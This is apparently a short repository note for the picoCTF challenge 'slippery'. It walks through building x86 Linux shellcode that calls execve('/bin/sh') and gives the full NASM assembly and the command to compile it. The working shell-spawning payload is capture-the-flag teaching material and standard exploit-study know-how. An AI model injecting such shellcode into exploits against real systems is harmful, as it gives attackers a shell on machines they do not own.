 # /bin/sh shellcode
Based on picoCTF slippery

## Building the shellcode:
```c
execve("/bin/sh", {NULL}, {NULL});
```

## Building the arguments:
jmp to the bottom of the stack
call the top of the stack
place "/bin//sh" below the call to become %ebx

## Building the syscall:
`sys_execve` is number 11
called with 0x80

## Full shellcode:
```as
xor   eax, eax ; zeroes eax
push  eax
push  '//sh'
push  '/bin'
mov   ebx, esp ; move ptr to '/bin//sh' into ebx
mov   ecx, eax ; move zero to arg
mov   edx, eax ; move zero to arg
push byte 11
pop   eax
int   0x80
```

# Compile:
```s
nasm -f bin -l sh.lst sh.asm
```


